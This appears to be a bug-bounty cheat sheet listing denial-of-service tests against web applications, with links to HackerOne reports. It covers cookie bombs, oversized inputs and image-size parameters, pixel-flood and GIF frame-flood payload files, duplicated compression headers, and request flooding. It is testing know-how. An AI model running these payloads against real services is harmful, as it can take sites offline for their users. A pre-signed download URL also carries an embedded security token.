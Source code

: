 ## 1. Cookie bomb
   
```
https://target.com/index.php?param1=xxxxxxxxxxxxxx
After input "xxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerable
```

## 2. Try input a very long payload to form. For example using very long password or using very long email
```
POST /register HTTP/1.1
Host: target.com
...
username=victim&password=aaaaaaaaaaaaaaa
```

## 3. Pixel flood, using image with a huge pixels

Download the payload: [Here](https://daffa.tech/lottapixel3.jpg)

## 4. Frame flood, using GIF with a huge frame

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/136/902000ac102f14a36a4d83ed9b5c293017b77fc7/uber.gif?response-content-disposition=attachment%3B%20filename%3D%22uber.gif%22%3B%20filename%2A%3DUTF-8%27%27uber.gif&response-content-type=image%2Fgif&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQ245MJJPA%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110848Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFMaCXVzLXdlc3QtMiJHMEUCIEC768ifpRHeEUucuNuVL%2FdcSsWMnGeNp%2FMhKs6afB01AiEAiZOP%2FwMaeQMITUni3aFcACIOqOHnWHgLKuXHRrb5LooqtAMIXBABGgwwMTM2MTkyNzQ4NDkiDHHy9PJ2ccl9cmsvyCqRA6bliBHBMPXR6NYflM%2BCXCCQ5VLdPCATpmLs9DhVuYsjxR3JUtVHnBvtfEYYWDWWsLoC3xuzmug5ycrAvqK%2BTYDYO7l4HD1rXfyEBkR579ZlUFab6bOL4i8nDqblun%2FeV253Sgd6GzL4E%2FXmUN%2FC6qNydSd9hp2fLoyNjqob6o5zJjmnqvZsq50ROOZwf1idkDtr163qeVZERnan7aY9rM%2FsX4iVdE4wY0rLw1maGRuDF2aLVCxPB681htsHt%2FpoZ18QY7LjcbNjbjB4PgXLd1sm5zQ4q9mPVxTZPvzo9BJCh7l6kMLHCtJXOXfrvvN8UBgIqr1KXvodzv7FRQYcvEpfw4pwCTWzBs8VeEcwS9gjOXFMNLNI8SZ9V76VQ5KrOIpKhzM9UQQN3DVzY3SwMHydX%2B%2BYcQTt%2FjvqTkorsltqob2g5E1K0U8btRLBvBqOo0Vbr75zLcLUUomDBQzSNSvJgTN43huYmkZxBpWAAId72Tt6m56aFQLXkCKGSoMxYjrrVW9jc37pVl3lZU7FIX0AMIuN6PoFOusBpDCrjFwR1Y7t7W8wLapYjI6yOkkvWTFwWvx38jZl9okqo5xchKolmKxKX7cfGPIyuUmSXc1xa0nKwYeOYlhQZfyI0NobqyWW81ITuuUjsBxULuqrXqfVl0PTjTTpqe%2FHvU6wYSE358XfggtcqaH9PPgNDOejgv%2FLnh9AH9nyqIWuaCu865IfAOupVVzFzQilyB2LDyQtTS4Kp5dHyEAibRQlqeKHWOkUE2mQefAaTxKLRKrs0mJQYSuC%2B4LQEB3Cq9Nhj5HN%2BYT7A7CDLrvyChyfYXQZYr0lR1jN91Yd7SBe2jB1Qls%2Bx%2FEUlQ%3D%3D&X-Amz-Signature=910a3812cf3b69f6fa72f39a89a6df2f395f8d17ef8702eeb164a0477c64fff5)

## 5. Parameter that can adjust the size of the image
```
Sometimes in website we found a parameter that can adjust the size of the image, for example
https://target.com/img/vulnerable.jpg?width=500&height=500
Try change "500" to "99999999999"
https://target.com/img/vulnerable.jpg?width=99999999999&height=99999999999
```

## 6. Try changing the value of the header with something new, for example:
```
Accept-Encoding: gzip, gzip, deflate, br, br
```

## 7. No Rate Limi
```
Sometimes if you try bug "No rate limit", after a long try it. The server will go down because there is so much requests
```

### References:
- [Hackerone #840598](https://hackerone.com/reports/840598)
- [Hackerone #105363](https://hackerone.com/reports/105363)
- [Hackerone #390](https://hackerone.com/reports/390)
- [Hackerone #400](https://hackerone.com/reports/400)
- [Hackerone #751904](https://hackerone.com/reports/751904)
- [Hackerone #861170](https://hackerone.com/reports/861170)
- [Hackerone #892615](https://hackerone.com/reports/892615)
- [Hackerone #511381](https://hackerone.com/reports/511381)
- [Hackerone #409370](https://hackerone.com/reports/409370)

